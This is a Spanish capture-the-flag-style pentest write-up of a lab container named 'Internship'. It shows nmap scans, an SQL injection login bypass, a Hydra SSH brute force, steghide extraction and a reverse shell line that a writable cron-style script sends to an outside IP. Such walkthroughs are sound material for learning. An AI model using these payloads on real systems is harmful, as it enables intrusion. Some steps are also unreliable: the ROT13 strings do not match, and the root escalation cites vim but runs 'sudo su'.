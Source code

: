 # 🧠 **Informe de Pentesting – Máquina: Internship**

### 💡 **Dificultad:** Fácil

![Despliegue](Imágenes/2025-05-19_20-20.png)

---

## 📝 **Descripción de la máquina**

*Internship* es una máquina de dificultad baja diseñada para simular un entorno realista de pasantes que han cometido errores comunes de seguridad, incluyendo malas configuraciones, contraseñas débiles, y almacenamiento inseguro de archivos. Ideal para practicar reconocimiento, inyección SQL, fuerza bruta y escalada de privilegios.

---

## 🎯 **Objetivo**

El objetivo es obtener acceso inicial al sistema, escalar privilegios hasta obtener acceso como `root`, y capturar la flag de cada usuario comprometido.

---

## ⚙️ **Despliegue de la máquina**

Se descomprime el archivo y se lanza el contenedor Docker con el script proporcionado:

```bash
unzip internship.zip
sudo bash auto_deploy.sh backend.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Se verifica conectividad hacia la IP del contenedor con un `ping`:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP

![Puertos](Imágenes/Capturas_2.png)

Después, identificamos servicios y versiones:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Reconocimiento Web**

Accedemos a `http://172.17.0.3/` y encontramos una página de bienvenida:

![Pagina](Imágenes/Capturas_4.png)

En el código fuente descubrimos el dominio `gatekeeperhr.com`. Para acceder correctamente, lo añadimos al archivo de hosts:

```bash
sudo nano /etc/hosts
```

Agregamos:

```
172.17.0.3 gatekeeperhr.com
```

![Dominio](Imágenes/Capturas_6.png)


Esto nos da acceso a una pantalla de inicio de sesión:

![Registro](Imágenes/Capturas_8.png)

---

## 🧨 **Inyección SQL**

Probamos una inyección simple:

```
Usuario: ' OR 1=1-- -
Contraseña: (cualquier valor)
```

Esta inyección manipula la consulta SQL para que siempre devuelva verdadero, permitiendo el acceso sin credenciales válidas.

![Registro](Imágenes/Capturas_9.png)
![Registro](Imágenes/Capturas_10.png)

Desde la interfaz obtenemos posibles nombres de usuarios.

---

## 🔎 **Fuzzing y Análisis Web**

Fuzzing sobre el dominio revela múltiples rutas interesantes:

```
/about.html
/contact.html
/default
/spam
/includes
/lab
```

![Fuzzing](Imágenes/Capturas_11.png)

En `/spam`, se muestra una pantalla negra, pero el código fuente revela un mensaje cifrado con ROT13:

```
Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
```

Descifrado con:

```bash
echo "Yn pbagenfrna qr ab qr ybs cnfnatrf rf 'checy3'" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Resultado:

```
La contraseña de uno de los pasantes es 'purpl3'
```

---

## 🛠️ **Ataque Fuerza Bruta (Hydra)**

Creamos un archivo `users.txt` con los nombres de los pasantes y realizamos fuerza bruta con Hydra:

```bash
hydra -L users.txt -p purpl3 ssh://172.17.0.3 -t 4
```

Se descubren credenciales válidas:

```
[22][ssh] host: 172.17.0.3   login: pedro   password: purpl3
```

![Hydra](Imágenes/Capturas_12.png)

---

## 🧑‍💻 **Acceso SSH y Primer Flag**

Accedemos vía SSH:

```bash
ssh pedro@172.17.0.3
```

No tiene permisos `sudo`. Encontramos la flag `fl4g.txt` en su home. En `/opt` hay un script `log_cleaner.sh` editable por nosotros. Lo modificamos para lanzar una reverse shell:

```bash
nano log_cleaner.sh
```

Agregamos:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.84/443 0>&1"
```

Escuchamos la conexión:

```bash
sudo nc -lvnp 443
```

![payload](Imágenes/Capturas_15.png)

---

## 🕵️‍♂️ **Análisis de Archivos Ocultos**

Desde la cuenta `valentina` encontramos la imagen `profile_picture.jpeg`, la copiamos a `/tmp` y damos permisos globales para su análisis:

```bash
cp ~/profile_picture.jpeg /tmp
chmod 777 profile_picture.jpeg
```

![Imagen](Imágenes/Capturas_13.png)

Desde nuestra máquina, la descargamos con:

```bash
scp pedro@172.17.0.3:/tmp/profile_picture.jpeg .
```

Usamos `steghide` para extraer archivos ocultos:

```bash
steghide extract -sf profile_picture.jpeg
```

Nos pide una contraseña, solo presionamos `Enter`. Se extrae `secret.txt`:

```bash
cat secret.txt
```

Contenido:

```
mag1ck
```

![Contraseña](Imágenes/Capturas_14.png)

---

## 🧗‍♂️ **Escalada de Privilegios**

Nos cambiamos a `valentina` con la contraseña `mag1ck`:

```bash
su valentina
```

Verificamos sus privilegios:

```bash
sudo -l
```

Salida:

```
(ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Esto permite escalar a root usando `vim`. Ejecutamos:

```bash
sudo su
```

¡Acceso root conseguido! 🚩

![rott](Imágenes/Capturas_16.png)

---
